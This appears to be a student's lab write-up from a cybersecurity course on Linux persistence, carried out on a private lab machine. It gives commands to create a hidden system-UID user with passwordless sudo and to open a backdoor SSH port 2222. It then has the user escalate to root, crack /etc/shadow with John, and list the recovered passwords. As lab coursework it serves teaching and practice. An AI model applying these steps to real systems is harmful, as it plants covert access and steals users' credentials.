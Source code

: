 **Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    -  sudo useradd -M sysd

2. Give your secret user a password: 
    - passwd sysd 
    cybersecurity

3. Give your secret user a system UID < 1000:
    - usermod -u 600 sysd

4. Give your secret user the same GID:
   - groupmod -g 600 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  sysd ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password: Sudo -l
apt-get update

    ```
    #!/bin/bash
    systemctl status cron
    crontab -l
    ls -l /var/spool/cron/crontabs/
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    Port 22
    Port 2222
    #AddressFamily any
    #ListenAddress 0.0.0.0
    #ListenAddress ::

    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh
    ss -tulpn |grep 2222 

2. Exit the `root` account:
    - exit
    exit
    

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo -s

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo -s
    john /etc/shadow
    
        - sysadmin:passw0rd
        - student:Goodluck!
        - mitnik:trustno1
        - babbage:freedom
        - lovelace:dragon
        - stallman:computer
        - turing:lakers


---


